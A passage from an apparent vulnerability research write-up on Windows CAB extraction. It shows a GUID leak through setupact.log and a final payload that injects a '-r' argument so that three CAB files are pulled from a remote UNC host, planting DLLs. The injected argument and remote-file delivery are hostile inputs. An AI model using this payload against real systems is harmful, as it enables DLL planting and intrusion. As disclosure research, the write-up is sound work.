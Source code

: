 ![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/32f1c6f7-48d9-4eb3-adad-caef8b6a6c98/Picture5.png?format=1000w)

<figcaption>

_Figure 5 - Failed extraction attempt - corrupted CAB file_

</figcaption>

</figure>

The extraction operation has failed, as expected. However, when we analyze the `expand` operation with the `procmon`, we will quickly notice something very interesting.

<figure>

![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/3f638c6d-271f-492a-9cf2-1ccc4485b1c2/Picture6.png?format=1000w)

<figcaption>

_Figure 6 - expand accessing C:WindowsLogsDPXsetupact.log file_

</figcaption>

</figure>

`expand` is writing some data to `C:WindowsLogsDPXsetupact.log`. Let’s have a look at the contents.

<figure>

![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/75993915-4ec8-4f43-b080-052e7003a166/Picture7.png?format=1000w)

<figcaption>

_Figure 7 - GUID leaked in setupact.log_

</figcaption>

</figure>

Bingo! When we try to extract a file with an invalid name, an exception is thrown and written to `setupact.log`. The exception text includes the extraction path, so this may be a way to leak the GUID and the entire DLL drop path. We only need a vulnerability that allows retrieval of the contents of this log file. We will come back to this later.

**5\. DumpDataReader – Preparing the Final Payload and Bypassing the File.Exists Check**

We have bypassed all the significant restrictions, including:

• File extension check  
• File removal after the extraction  
• Writing to the random path (leak of GUID)

The final payload looks like this:

`\192.168.123.104pocf.cab -r \192.168.123.104poci.cab \192.168.123.104poct.cab`

I am:

• Injecting `-r` argument to bypass several protections.  
• Delivering 3 CAB files: one for `FUSE.Paxos.dll`, one for `Ijwhost.dll` and one containing a corrupted file for leaking the GUID.
